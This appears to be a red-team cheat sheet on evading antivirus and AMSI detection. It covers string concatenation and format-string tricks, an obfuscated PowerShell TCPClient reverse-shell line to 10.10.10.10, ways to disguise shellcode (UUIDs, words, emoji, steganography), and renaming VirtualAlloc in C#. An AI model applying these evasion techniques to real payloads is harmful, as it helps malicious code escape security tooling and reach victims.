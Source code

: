 #### Byte strings
- Change variable names
   - `$variablename = "amsicontext"` to `$LoremIpsum = "amsicontext"`
   - Dont randomize all the things
      - Changing default variable/func. names is good, but random characters is bad. Use two-word pairs (Example: DragonBerrySmasher)
- Concatenation
   - `"amsicontext"` to `"am" + "si" + "con" + "te" + "xt"`
- Variable insertion
   - `$variablename = 'context'` into `$variablename2 = "Amsi$variablename"`
   - C# `string variablename = "context"; string variablename2 = $"amsi{variablename}";`
   - Format string
      - `$variablename = "amsi{0}text -f "con"`
      - `$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);` to `$client = New-Object ("{0}{1}" -f 'SySteM.Ne', 'T.SoCkEts.TCPCliEnt')("10.10.10.10",80);`
      - C# `string variablename = "context"; string variablename2 = String.Format("amsi{0}",variablename);`
- Potentially the order of execution
- Obfuscating shellcode
   - Shellcode as UUID
      - https://github.com/boku7/Ninja_UUID_Runner/blob/main/bin2uuids.py
   - Reverse shellcode bytes
   - Break into chunks
   - Divide code into two arrays - even & odd bytes
   - Steganography
   - `BigInteger() h/t`
   - Shellcode as english words
      - https://github.com/hardwaterhacker/jargon
   - Shellcode as Emoji
      - https://github.com/RischardV/emoji-shellcoding
- Lower entropy
   - Languages are not random
   - Create an array with a dictionary and compile it with the code (disable compiler optimization)
- Misc
   - PowerShell
      - Properties of an object
         - Can be obfuscated with backticks `$notify.icon` to ```$notify."i`c`on"```
   - C#
     - Changing the variable type (i.e list vs array) 
     - Rename your entrypoints
        -  https://learn.microsoft.com/th-th/dotnet/framework/interop/specifying-an-entry-point#renaming-a-function-in-c-and-c\
```
[DllImport("kernel32")]
	private static extern IntPtr VirtualAlloc(
	UInt32 lpStartAddr, 
	UInt32 size, 
	UInt32 flAllocationType, 
	UInt32 flProtect);

[DllImport("kernel32, EntryPoint = VirtualAlloc",
	SetLastError = false, ExactSpelling = true)]
	private static extern IntPtr SplendidDragon(
	UInt32 lpStartAddr, 
	UInt32 size, 
	UInt32 flAllocationType, 
	UInt32 flProtect);
```
